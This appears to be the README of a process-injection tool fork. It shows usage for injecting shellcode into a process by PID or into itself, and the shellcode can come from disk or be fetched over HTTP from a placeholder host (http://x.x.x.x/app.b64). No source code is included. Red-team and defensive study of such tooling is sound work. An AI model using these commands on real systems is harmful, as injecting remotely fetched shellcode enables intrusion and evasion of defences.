 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

### Usage 

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```
Supported targets: Primarily, you'll want to target a process via the PID. However, it is possible to just inject into the ProcessInjection.exe process itself by using the value "self".
Supported bintypes: "b64" for base64 encoded ShellCode and "bin" for raw/binary ShellCode.
Supported binlocations: Any value that starts with `http://` or `https://` is pulled over HTTP(s). Any other value is assumed to exist on disk (or readable off a shared drive).
